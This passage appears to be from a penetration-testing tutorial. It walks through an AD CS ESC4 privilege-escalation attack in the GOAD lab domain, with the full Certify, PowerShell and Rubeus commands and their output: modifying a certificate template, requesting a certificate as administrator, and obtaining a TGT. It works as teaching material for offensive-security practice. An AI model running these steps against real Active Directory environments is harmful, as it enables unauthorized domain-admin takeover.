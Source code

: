### Practical Implementation

Let's see what we can modify in GOAD. Find templates with vulnerable ACLs:

```bash
Certify.exe find /vulnerable

[!] Vulnerable Certificates Templates :

    CA Name                       : braavos.essos.local\ESSOS-CA
    Template Name                 : ESC4
    Schema Version                : 2
    Validity Period               : 1 year
    Renewal Period                : 6 weeks
    msPKI-Certificate-Name-Flag   : 0x0
    mspki-enrollment-flag         : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required: 0
    pkiextendedkeyusage           : Client Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : ESSOS\Domain Users                    Access: Allow
      Object Control Permissions
        Owner                       : ESSOS\Administrator
        WriteProperty Principals    : ESSOS\khal.drogo                     Access: Allow
        WriteDacl Principals        : ESSOS\Administrator

# First, backup original template settings for cleanup
Get-ADObject "CN=ESC4,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local" -Properties * | Select-Object * | Export-Clixml ESC4-backup.xml

# Modify template to enable ENROLLEE_SUPPLIES_SUBJECT
$template = Get-ADObject "CN=ESC4,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local"
Set-ADObject $template.DistinguishedName -Replace @{"msPKI-Certificate-Name-Flag"=1}

[*] Template ESC4 modified to enable ENROLLEE_SUPPLIES_SUBJECT

# Wait for AD replication
Start-Sleep -Seconds 30

# Request certificate with arbitrary SAN
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:ESC4 /altname:upn:administrator@essos.local

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\khal.drogo
[*] Template                : ESC4
[*] Subject                 : CN=khal.drogo, CN=Users, DC=essos, DC=local
[*] AltName                 : administrator@essos.local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 11

# Authenticate as administrator
Rubeus.exe asktgt /user:administrator /certificate:admin.pfx

[+] TGT request successful!

# Restore original template (cleanup)
$template = Get-ADObject "CN=ESC4,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local"
Set-ADObject $template.DistinguishedName -Replace @{"msPKI-Certificate-Name-Flag"=0}

```